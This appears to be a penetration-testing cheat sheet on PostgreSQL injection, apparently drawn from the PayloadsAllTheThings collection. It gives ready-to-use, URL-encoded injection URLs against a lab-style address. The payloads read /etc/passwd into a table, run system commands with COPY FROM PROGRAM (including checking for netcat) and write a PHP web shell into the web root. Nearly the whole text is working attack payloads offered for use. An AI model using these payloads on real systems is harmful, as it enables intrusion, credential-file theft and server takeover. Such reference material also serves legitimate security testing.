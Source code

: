 # PostgreSQL Injection

## Read Files

1. Create a new table: `CREATE TABLE cracked(data TEXT);`
2. Copy target file contents into the table: `COPY cracked FROM '/etc/passwd';`
3. Read table contents: `select data from cracked;`

**2-Step Example:**

    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,null,null,null,null;%20CREATE%20TABLE%20cracked(data%20TEXT);%20COPY%20cracked%20FROM%20%27/etc/passwd%27;%20--#
    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,data,null,null,null%20from%20cracked;%20--#

## Command Execution

1. Create a fresh table: `DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text);`
2. Run system command: `COPY cmd_exec FROM PROGRAM 'id';`
3. View command output: `SELECT cmd_output FROM cmd_exec;`

**2-Step Example:**

    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,null,null,null,null;%20DROP%20TABLE%20IF%20EXISTS%20cmd_exec;%20CREATE%20TABLE%20cmd_exec(cmd_output%20text);%20COPY%20cmd_exec%20FROM%20PROGRAM%20%27which%20nc%27;%20--#
    http://10.10.10.4/index.php?search=abc%27%20union%20all%20select%20null,cmd_output,null,null,null%20from%20cmd_exec;%20--#

## Shell Upload

If write permission is granted, new files can be created with desired file contents:

    http://10.10.10.4/index.php?search=abc' union all select null,null,null,null,null; CREATE TABLE pentestlab (t TEXT); INSERT INTO pentestlab(t) VALUES('<?php system($_GET["cmd"])?>'); COPY pentestlab(t) TO '/var/www/shell.php'; --#

## References

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-file-read